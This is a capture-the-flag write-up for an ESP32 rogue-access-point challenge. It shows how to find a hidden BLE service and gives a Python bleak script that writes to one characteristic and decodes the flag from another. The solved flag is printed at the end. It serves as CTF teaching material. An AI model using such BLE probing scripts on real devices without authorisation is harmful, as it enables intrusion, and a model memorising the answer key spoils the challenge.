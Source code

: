 # Write-Up 3xF1ltr4tor 


## Description:
```
    A strange access point with a web server is open, named: `PWNME_Free_APx`.
    I suspect it might be a rogue access point because I tried to log in, but I dont get my WiFi !
    It’s up to you to investigate and find out how it exfiltrates your data!
    This 3xF1ltr4tor is build on ESP32
    Search OTA :)
```
- **Difficulty:** easy
- **Author:** Eun0us


## Introduce 
Connect u to an Access Point PWNME_FREE_AP1


![alt text](img/free_ap.png)

<br>So u gain access to an Access Point with a server web on port 80 (http://192.168.4.1:80)</br>

Now u are on an little EvilTwin 

![alt text](img/post.png)

Look i post nothing happend :(

- Web Attack is not the way !
- No MITM, No NMAP  

## Search OTA

a basic esp32 provide WiFi **and** BLE 
So basicly just look on u r ble !
<br>
![alt text](img/BLE_OTA.png)
</br>
there is *PWNED_BLE_1*.

### Characteristic

UUID: 9abc0001-1234-5678-9abc-def012345678 / **READ** char -> ```key=flag```
UUID: 9abc0002-1234-5678-9abc-def012345678 / **WRITE** char -> if(input == key) -> **Notifiy
UUID: 9abc0003-1234-5678-9abc-def012345678 / **NOTIFY** char -> "Maybe return the flag ?"


## Exploit 

Step:
- scan devices 
- Connect to the *exfiltrator* device 
- Subscribe Notify *9abc0003-1234-5678-9abc-def012345678*
- Send 'flag' to *9abc0002-1234-5678-9abc-def012345678*
- Wait for response 

**exploit.py**
```py 
import asyncio
from bleak import BleakClient, BleakScanner
import base64

# BLE UUIDs
SERVICE_UUID = "9abc0000-1234-5678-9abc-def012345678"
CHAR_WRITE_UUID = "9abc0002-1234-5678-9abc-def012345678"
CHAR_NOTIFY_UUID = "9abc0003-1234-5678-9abc-def012345678"

received_flag = ""
exfiltrator = "Pwned_BLE_1" # U can search for any devices

# Notify Call Back Fonction
def notification_handler(sender, data):
    global received_flag
    print(f"[*] Notification : {data}")
    try:
        decoded = base64.b64decode(data).decode()
        print(f"[*] Decoded string : {decoded}")
        received_flag = decoded
    except Exception as e:
        print(f"[!] Erreur de décodage : {e}")

async def main():
    print("[*] Discover device BLE...")
    devices = await BleakScanner.discover(timeout=5.0)

    target = None
    for d in devices:
        if d.name and exfiltrator in d.name: 
            target = d
            break

    if not target:
        print(".")
        return

    print(f"[+] Connected to {target.name} ({target.address})...")
    async with BleakClient(target.address) as client:
        print("[✓] Connected.")

        # Subscribe NOTIFY
        await client.start_notify(CHAR_NOTIFY_UUID, notification_handler)
        print("[*] Abonné à la caractéristique notify.")

        # Send 'flag' to trigger the server
        await client.write_gatt_char(CHAR_WRITE_UUID, b"flag") # bytes("flag")
        print(f"[→] 'flag' send to {target.name}.")

        # Wait max 5 sec for Notification
        await asyncio.sleep(5)

        await client.stop_notify(CHAR_NOTIFY_UUID)

        if received_flag:
            print(f"\n [{received_flag}] \n")
        else:
            print("")

asyncio.run(main())
```

![alt text](img/exploit.png)

GG ! U flag *PWNME{3xF1ltr4t0r_s3rv_Bl3}*